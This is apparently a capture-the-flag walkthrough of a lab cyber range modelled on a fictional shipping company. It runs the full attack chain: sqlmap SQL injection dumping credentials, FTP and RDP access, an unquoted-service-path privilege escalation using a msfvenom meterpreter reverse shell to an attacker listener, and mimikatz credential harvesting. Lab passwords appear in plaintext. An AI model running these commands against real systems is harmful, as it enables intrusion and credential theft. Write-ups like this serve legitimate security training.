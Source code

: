 ```yaml
---
date: 2025-01-04
categories: [CTF, IML]
title: "IML - Offensive Cyber Range: Artica Shipping Company"
tags: ['ftp', 'nmap', 'privilege escalation', 'python', 'rce', 'sqli', 'windows']

description: "Offensive Cyber Range Artica Shipping Company - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Offensive Cyber Range: Artica Shipping Company


![image1](../resources/1e3b840d470c411aaf26f2852d9d848d.png)

1.) Enum Host 1

![image2](../resources/6099619d24ba47bfa5eb358c5ffdf784.png)

2.) What type of server does Unknown Host 1 appear to be?
FTP server

3\. ) What version of Apache is Artica's intranet using?
nmap \<Host 4\> -p 80 -A

Version: 2.4.41

4.) Identify vulnerabilities in services or servers:
Go to \<host 4\> port 80

The to= parameter is injectable (test with a simple quote ' )

5.) What type of attack is the Artica intranet vulnerable to?
SQLi

6.) What is the username of the FTP account that can be found in the intranet database?

1.  Open burp and catch the request

![image3](../resources/eeff52988b1f4ac790dc6933ed1832d6.png)

2.  Save the request text to a file, call it 'burpfile':

3.  Run:
```bash
sqlmap -r burpfile --batch --dump-all --exclude-sysdb
```
- We get creds:

![image4](../resources/e150f496b8e64f52b717958b66bb2e3b.png)

\| 1 \| WoWmAgE60 \| b.mocarthy \|

\| 2 \| 0912jgf93FSnjf \| artica-ftp-acc

FTP account: **artica-ftp-acc**

7.) Which of the following directories exists on the FTP server?
Tools


![image5](../resources/26a3e175e9484e5381b1ead7831d3b4c.png)

8.) Which port is NOT open on Unknown Host 2?
21

9.) What is the name of the domain Unknown Host 2 is connected to?
NMAP

artica.office

10.) What is the NetBIOS computer name of Unknown Host 1?
From the NMAP

ARTICA-WIN-FTP

11.) What type of attack is the fax server vulnerable to?

Log into ftp server with creds from sql dump

```bash
ftp 10.102.18.198
cd System Administration
binary #Change to binary mode
get fax-server-info.pdf

```
Read it and we get creds:

**DNS: artica-fax-server**
**User: artica\fax_acc**
**Pw: 03mglosmf!!**

Unknown Host 2 is the fax server

- Connect with xfreerdp:
```bash
xfreerdp /v:10.102.17.110 /u:artica\fax_acc /p:'03mglosmf!!' /cert:ignore /dynamic-resolution

```
wmic service get name,displayname,startmode,pathname \| findstr /i /v "C:\Windows\\" \|findstr /i /v """


![image6](../resources/5206b6f5fe5b455d8644e631bce83938.png)

C:\Program Files\Artica Applications\Logging Service\log-srv.exe

```bash
icacls "C:\Program Files\Artica Applications"

```

![image7](../resources/00c478fb05904a58b3780b43a369e1f0.png)

**Unquoted service path**

12.) Exploit the vulnerabilities to obtain the tokens.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.102.52.111 LPORT=9000 -f exe -o Logging.exe

python -m http.server 8080

```
Download rev shell
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.102.52.111; set lport 9000; exploit"
```

Put in C:\Program Files\Artica Applications

```bash
sc qc "Artica Logging Service"

```

![image8](../resources/2a8b376edfa245f8b714507e30f2aeec.png)


![image9](../resources/d4950d26564f42e78ede32462244301c.png)

```bash
sc start "Artica Logging Service"

```

![image10](../resources/4f693e9e88604e3082a64c5d48d952bc.png)


![image11](../resources/3f5fe6eae22a4e3c94ef6bd423313026.png)

ps

migrate to winlogon.exe

```bash
load kiwi

kiwi_cmd "token::elevate /domainadmin"

```

![image12](../resources/e823fa026d6c4d6e935a82584e83e2ae.png)
```bash
creds_all
```

![image13](../resources/926d2092181247c791d7ff27d6e37d63.png)

**emma.thompson : iLOVEbears1204**

13.) What is the token found within the file located on the Administrator's desktop on the domain controller?

On the existing RDP session - Open Remote Desktop and use the creds for Emma


![image14](../resources/0901a51145da4a09bc83fe15414b4748.png)